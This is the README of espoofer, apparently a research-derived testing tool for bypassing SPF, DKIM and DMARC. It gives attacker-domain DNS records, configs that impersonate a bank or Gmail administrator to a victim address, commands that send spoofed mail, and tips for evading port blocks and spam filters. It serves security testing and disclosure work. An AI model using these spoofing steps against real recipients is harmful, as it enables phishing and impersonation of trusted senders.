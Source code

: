# espoofer

*espoofer* is an open-source testing tool to bypass SPF, DKIM, and DMARC authentication in email systems. It helps mail server administrators and penetration testers to check whether the target email server and client are vulnerable to email spoofing attacks or can be abused to send spoofing emails.

<!-- ![Gmail spoofing demo](images/gmail-spoofing-demo.png "espoofer demo" )
 -->
<p align="center">
<kbd>
<img src="images/gmail-spoofing-demo.png" height="300">
</kbd>
<br>Figure 1. A case of our spoofing attacks on Gmail (Fixed, <a href="https://youtu.be/xuKZpT0rsd0">Demo video</a>)
</p>

## Why build this tool?

Email spoofing is a big threat to both individuals and organizations ([Yahoo breach](https://arstechnica.com/tech-policy/2017/03/fbi-hints-that-hack-of-semi-privileged-yahoo-employee-led-to-massive-breach/), [John podesta](https://www.cbsnews.com/news/the-phishing-email-that-hacked-the-account-of-john-podesta/)). To address this problem, modern email services and websites employ authentication protocols -- SPF, DKIM, and DMARC -- to prevent email forgery. 

Our latest research shows that the implementation of those protocols suffers a number of security issues, which can be exploited to bypass SPF/DKIM/DMARC protections. Figure 1 demonstrates one of our spoofing attacks to bypass DKIM and DMARC in Gmail. For more technical details, please see our [Black Hat USA 2020 talk](https://www.blackhat.com/us-20/briefings/schedule/#you-have-no-idea-who-sent-that-email--attacks-on-email-sender-authentication-19902) or [USENIX security 2020 paper](https://www.jianjunchen.com/publication/composition-kills-a-case-study-of-email-sender-authentication/). 

- Black Hat USA 2020 slides (PDF): [You have No Idea Who Sent that Email: 18 Attacks on Email Sender Authentication](http://i.blackhat.com/USA-20/Thursday/us-20-Chen-You-Have-No-Idea-Who-Sent-That-Email-18-Attacks-On-Email-Sender-Authentication.pdf)
- USENIX security 2020 paper (PDF): [Composition Kills:
A Case Study of Email Sender Authentication](https://www.usenix.org/system/files/sec20fall_chen-jianjun_prepub_0.pdf)

In this repo, we summarize all test cases we found and integrate them into this tool to help administrators and security-practitioners quickly identify and locate such security issues.

<details><summary>Please consider citing our paper if you do scentific research (Click me).  </summary>
<p>

*Latex version:*

```tex
@inproceedings{chen-email,
author = {Jianjun Chen and Vern Paxson and Jian Jiang},
title = {Composition Kills: A Case Study of Email Sender Authentication},
booktitle = {29th {USENIX} Security Symposium ({USENIX} Security 20)},
year = {2020},
isbn = {978-1-939133-17-5},
pages = {2183--2199},
url = {https://www.usenix.org/conference/usenixsecurity20/presentation/chen-jianjun},
publisher = {{USENIX} Association},
month = aug,
}
```

*Word version:*

Jianjun Chen, Vern Paxson, and Jian Jiang. "Composition kills: A case study of email sender authentication." In 29th USENIX Security Symposium (USENIX Security 20), pp. 2183-2199. 2020.

</p>
</details>

## Installation
- Download this tool
```
git clone https://github.com/chenjj/espoofer
```

- Install dependencies
```
sudo pip3 install -r requirements.txt
```
> *Python version: Python 3 (**>=3.7**).*

## Usage
espoofer has three work modes: *server* ('s', default mode), *client* ('c') and *manual* ('m'). In *server* mode, espoofer works like a mail server to test validation in receiving services. In *client* mode, espoofer works as an email client to test validation in sending services. *Manual* mode is used for debug purposes. 

<p align="center">
<img src="images/email-authentication-flow.png" ><br>
Figure 2. Three types of attackers and their work modes
</p>

#### Server mode
To run espoofer in server mode, you need to have: 1) an IP address (`1.2.3.4`), which outgoing port 25 is not blocked by the ISP, and 2) a domain (`attack.com`). 


1. Domain configuration

- Set DKIM public key for `attack.com`

```
selector._domainkey.attacker.com TXT  "v=DKIM1; k=rsa; t=y; p=MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDNjwdrmp/gcbKLaGQfRZk+LJ6XOWuQXkAOa/lI1En4t4sLuWiKiL6hACqMrsKQ8XfgqN76mmx4CHWn2VqVewFh7QTvshGLywWwrAJZdQ4KTlfR/2EwAlrItndijOfr2tpZRgP0nTY6saktkhQdwrk3U0SZmG7U8L9IPj7ZwPKGvQIDAQAB"
```

- Set SPF record for `attack.com`

```
attack.com TXT "v=spf1 ip4:1.2.3.4 +all"
```

2. Configure the tool in config.py

```
config ={
	"attacker_site": b"attack.com", # attack.com
	"legitimate_site_address": b"admin@bank.com", # legitimate.com
	"victim_address": b"victim@victim.com", # victim@victim.com
	"case_id": b"server_a1", # server_a1
}
```

You can list find the case_id of all test cases using `-l` option:

```
python3 espoofer.py -l
```

3. Run the tool to send a spoofing email

```
python3 espoofer.py
```

You can change case_id in the config.py or use `-id` option in the command line to test different cases:

```
python3 espoofer.py -id server_a1
```

#### Client mode 

To run epsoofer in client mode, you need to have an account on the target email services. This attack exploits the failure of some email services to perform sufficient validation of emails received from local MUAs. For example, `attacker@gmail.com` tries to impersonate `admin@gmail.com`. 
1. Configure the tool in config.py

```
config ={
	"legitimate_site_address": b"admin@gmail.com",  
	"victim_address": b"victim@victim.com", 
	"case_id": b"client_a1",

	"client_mode": {
		"sending_server": ("smtp.gmail.com", 587),  # SMTP sending serve ip and port
		"username": b"attacker@gmail.com", # Your account username and password
		"password": b"your_passward_here",
	},
}
```

You can list find the case_id of all test cases using `-l` option:

```
python3 espoofer.py -l
```

> Note: `sending_server` should be the SMTP sending server address, not the receiving server address.


2. Run the tool to send a spoofing email

```
python3 espoofer.py -m c
```

You can change case_id in the config.py and run it again, or you can use `-id` option in the command line:

```
python3 espoofer.py -m c -id client_a1
```

#### Manual mode

Here is an example of manual mode:

```
python3 espoofer.py -m m -helo attack.com -mfrom <m@attack.com> -rcptto <victim@victim.com> -data raw_msg_here -ip 127.0.0.1 -port 25
```

## Bugs found with this tool

* Gmail.com DMARC bypass demo video, https://youtu.be/xuKZpT0rsd0
* Outlook.com DMARC bypass video, https://youtu.be/IsWgAEbPaK0
* Yahoo.com DMARC bypass video, https://youtu.be/DRepfStOruE
* Protonmail.com DMARC bypass video, https://youtu.be/bh4_SoPniMA
* CVE-2020-12272, OpenDMARC bypass bug report, https://sourceforge.net/p/opendmarc/tickets/237/
* CVE-2019-20790, OpenDMARC and pypolicyd-spf bypass bug report, https://sourceforge.net/p/opendmarc/tickets/235/
* Mail.ru DMARC bypass bug report on HackerOne, https://hackerone.com/reports/731878

Welcome to send a pull request to file your bug report here. 

## Q&A

1. How do I know if the email has bypassed DMARC authentication successfully? 

You can check it in the Authentication-results header in the raw message headers. If the header shows `dmarc=pass`, it means the email has passed the DMARC authentication.  You can check some demos video [here](https://www.youtube.com/playlist?list=PL--A-gWJV1dJ19SyhkzklMC3C8ra1kK5-).

2. Why do emails fail to send?

There are several possible reasons if you fail to send an email: 1) your ISP blocks outgoing emails to port 25 to prevent spam. In this case, you need to ask for permission from the ISP; 2) the IP address is in the spam list of the target email services. In many cases, you resolve the problem here, https://www.spamhaus.org/lookup/ ;  3) some email services check if there is a PTR record for the sending IP, you may also need to set the PTR record to bypass this check; 4) the email cannot pass the format validation of the target email service, you may want to try a different test case. 

3. Why the email goes to the spam folder? Any way to avoid this?

Currently, espoofer focuses on bypassing SPF/DKIM/DMARC authentication and doesn't aim for spam filter bypass. But you could try to use a reputable sending IP address, domain, and benign message content to bypass the spam filter.

4. Why I send an email successfully but the email didn't show up in either inbox or spam folder?

In our prior experiences, some email services filter suspicious emails silently.

## Credits

Welcome to add more test cases.

<!-- *This repo is created for the vendors to reproduce our reported issues, so this tool is not useable without additional instructions. We will update it after the affected vendors have fixed our reported bugs.*
 -->
